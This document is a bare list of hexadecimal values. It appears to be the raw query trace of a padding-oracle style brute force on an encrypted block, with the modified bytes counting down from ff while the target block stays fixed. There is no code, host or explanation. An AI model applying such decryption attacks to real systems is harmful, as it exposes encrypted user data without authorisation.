0000000000000000b71e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000b61e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000b51e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000b41e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000b31e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000b21e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000b11e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000b01e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000af1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000ae1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000ad1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000ac1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000ab1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000aa1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000a91e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000a81e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000a71e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000a61e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000a51e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000a41e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000a31e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000a21e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000a11e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
0000000000000000a01e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
00000000000000009f1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
00000000000000009e1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
00000000000000009d1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
00000000000000009c1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
00000000000000009b1e66457e030e24fe249615e3e8da834ab4e67cc0348cc4
00000000000000ff9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000fe9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000fd9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000fc9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000fb9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000fa9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000f99a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000f89a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000f79a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000f69a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000f59a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000f49a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000f39a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000f29a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000f19a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000f09a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000ef9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000ee9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000ed9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000ec9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000eb9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000ea9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000e99a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000e89a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000e79a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000e69a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000e59a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000e49a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000e39a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000e29a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000e19a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000e09a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000df9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000de9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000dd9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000dc9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000db9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000da9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000d99a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000d89a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000d79a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000d69a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000d59a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000d49a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000d39a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000d29a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000d19a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000d09a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000cf9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000ce9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000cd9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000cc9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000cb9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000ca9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000c99a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000c89a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000c79a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000c69a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000c59a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000c49a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000c39a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000c29a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000c19a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000c09a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000bf9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000be9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000bd9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000bc9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000bb9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000ba9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000b99a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000b89a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000b79a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000b69a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000b59a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000b49a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000b39a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000b29a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000b19a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000b09a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000af9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000ae9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000ad9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000ac9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000ab9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000aa9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000a99a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000a89a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000a79a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000a69a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000a59a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000a49a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000a39a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000a29a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000a19a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000a09a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
000000000000009f9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
000000000000009e9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
000000000000009d9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
000000000000009c9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
000000000000009b9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
000000000000009a9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000999a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000989a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000979a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000969a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000959a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000949a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000939a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000929a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000919a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000909a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
000000000000008f9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
000000000000008e9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
000000000000008d9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
000000000000008c9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
000000000000008b9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
000000000000008a9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000899a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000889a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000879a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000869a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000859a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000849a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000839a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000829a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000819a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000809a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
000000000000007f9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
000000000000007e9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
000000000000007d9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
000000000000007c9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
000000000000007b9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
000000000000007a9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000799a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000789a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000779a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000769a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000759a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000749a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000739a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000729a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000719a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000709a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
000000000000006f9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
000000000000006e9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
000000000000006d9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
000000000000006c9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
000000000000006b9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
000000000000006a9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000699a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000689a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000679a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000669a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000659a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000649a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000639a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000629a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000619a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000609a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
000000000000005f9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
000000000000005e9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
000000000000005d9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
000000000000005c9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
000000000000005b9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
000000000000005a9a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000599a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000589a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000579a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
00000000000000569a1f67447f020f25fe249615e3e8da834ab4e67cc0348cc4
000000000000ff55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000fe55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000fd55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000fc55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000fb55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000fa55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000f955991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000f855991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000f755991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000f655991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000f555991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000f455991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000f355991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000f255991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000f155991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000f055991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000ef55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000ee55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000ed55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000ec55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000eb55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000ea55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000e955991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000e855991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000e755991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000e655991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000e555991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000e455991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000e355991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000e255991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000e155991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000e055991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000df55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000de55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000dd55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000dc55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000db55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000da55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000d955991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000d855991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000d755991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000d655991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000d555991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000d455991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000d355991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000d255991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000d155991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000d055991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000cf55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000ce55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000cd55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000cc55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000cb55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000ca55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000c955991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000c855991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000c755991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000c655991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000c555991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000c455991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000c355991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000c255991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000c155991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000c055991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000bf55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000be55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000bd55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000bc55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000bb55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000ba55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000b955991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000b855991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000b755991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000b655991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000b555991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000b455991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000b355991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000b255991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000b155991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000b055991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000af55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000ae55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000ad55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000ac55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000ab55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000aa55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000a955991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000a855991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000a755991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000a655991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000a555991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000a455991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000a355991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000a255991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000a155991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
000000000000a055991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000009f55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000009e55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000009d55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000009c55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000009b55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000009a55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000009955991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000009855991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000009755991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000009655991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000009555991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000009455991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000009355991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000009255991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000009155991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000009055991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000008f55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000008e55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000008d55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000008c55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000008b55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000008a55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000008955991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000008855991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000008755991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000008655991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000008555991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000008455991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000008355991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000008255991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000008155991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000008055991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000007f55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000007e55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000007d55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000007c55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000007b55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000007a55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000007955991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000007855991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000007755991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000007655991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000007555991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000007455991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000007355991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000007255991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000007155991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000007055991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000006f55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000006e55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000006d55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000006c55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000006b55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000006a55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000006955991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000006855991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000006755991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000006655991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000006555991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000006455991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000006355991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000006255991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000006155991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000006055991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000005f55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000005e55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000005d55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000005c55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000005b55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000005a55991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000005955991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000005855991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000005755991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000005655991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000005555991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000005455991c64477c010c26fe249615e3e8da834ab4e67cc0348cc4
0000000000ff5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000fe5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000fd5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000fc5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000fb5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000fa5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000f95554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000f85554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000f75554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000f65554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000f55554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000f45554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000f35554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000f25554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000f15554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000f05554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000ef5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000ee5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000ed5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000ec5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000eb5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
0000000000ea5554981d65467d000d27fe249615e3e8da834ab4e67cc0348cc4
